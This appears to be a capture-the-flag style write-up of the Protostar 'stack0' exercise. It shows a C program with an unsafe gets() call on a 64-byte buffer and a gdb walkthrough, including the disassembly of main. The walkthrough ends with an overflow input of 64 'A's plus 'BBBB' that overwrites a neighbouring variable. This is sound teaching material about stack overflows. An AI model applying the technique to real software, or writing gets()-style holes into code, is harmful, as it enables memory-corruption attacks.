

# STACK0 task

## The main of task is to somehow modify the variable 'modified'

### The idea:

The main vulnerability of this code is the `gets(buffer)` function, because we can modify the memory through memory
overwrite. So we can just overwrite buffer by adding 64 values to stack

### Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### Solution:

1. run `gdb stack0` to begin debug process
2. `set disassembly-flavor intel` command to better output
3. `disassemble main` to view `main` function dump

```
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0  <-- modified = 0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>      <-- gets(buffer)
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```
4. set the breakpoints: `break *0x0804840c` and `break *0x0804840c`
5. ```
    define hook-stop
    info registers
    x/24wx $esp <-- 24 values from esp stack
    x/2i $eip <-- 2 pointers from eip
    end
   ```
   to modify break output
6. run(`r`) the program and get to the input of `gets(buffer)` (type `c` to continue the execution) 
7. now type some capital "A" chars, and press enter . 

See that some values in `0xbffffc10` block and `0xbffffc20` were changed to `0x41414141`
9. how do we know where is the variable address in stack? Simple! Just type `x/wx $esp+0x5c` (from `mov    DWORD PTR [esp+0x5c],0x0`) to see address
10. now rerun and type "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB". You must see that `0x00000000` turned into a "BBBB" hex (`0x42424242`) 
